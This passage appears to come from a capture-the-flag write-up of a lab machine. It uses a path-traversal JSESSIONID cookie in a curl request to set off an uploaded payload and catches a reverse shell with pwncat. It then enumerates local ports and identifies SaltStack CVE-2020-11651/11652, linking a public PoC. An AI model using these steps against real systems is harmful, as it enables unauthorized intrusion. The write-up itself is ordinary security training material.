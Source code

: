 * Executing reverse shell - 
```bash
╰─❯ curl 'http://10.10.10.205:8080/upload.jsp' -H "Cookie: JSESSIONID=../../../../../../opt/samples/uploads/duck"
```

__Get tomcat shell__
```bash
❯ pwncat -lp 4141
[21:36:26] received connection from 10.10.10.205:33382                        connect.py:255
[21:36:32] new host w/ hash fc4ce837c64dfe9f096b06d0150a3288                   victim.py:321
[21:36:51] pwncat running in /usr/bin/bash                                     victim.py:354
[21:37:08] pwncat is ready 🐈                                                  victim.py:771

(remote) tomcat@VirusBucket:/$ cd
(remote) tomcat@VirusBucket:/home/tomcat$ id
uid=1000(tomcat) gid=1000(tomcat) groups=1000(tomcat)
(remote) tomcat@VirusBucket:/home/tomcat$ cat user.txt 
28db6375************************
```

# Privesc Enumeration

* there are some port running on localhost -

```bash
(remote) tomcat@VirusBucket:/home/tomcat$ ss -lntp
State      Recv-Q     Send-Q              Local Address:Port          Peer Address:Port     Process                                                                                     
... [snip] ...
LISTEN     0          4096                    127.0.0.1:4505               0.0.0.0:*                                                                                                    
LISTEN     0          4096                    127.0.0.1:4506               0.0.0.0:*                                                                                                    
LISTEN     0          4096                    127.0.0.1:8000               0.0.0.0:*                                                                                                    
LISTEN     0          4096                    127.0.0.1:36391              0.0.0.0:*                                                                                                    
 
```

* by default __saltstack__ run on port 4505,4506 

__Saltstack__ is Python-based, open-source software for event-driven IT automation, remote task execution, and configuration management.

__Found 2 CVEs__ -

+ Authentication bypass vulnerabilities (CVE-2020-11651)
+ Directory traversal vulnerabilities (CVE-2020-11652)

__source: f-secure report:__ [SaltStack authorization bypass](https://labs.f-secure.com/advisories/saltstack-authorization-bypass/)

__PoC_Script:__ by [jasperla@github](https://github.com/jasperla/CVE-2020-11651-poc)
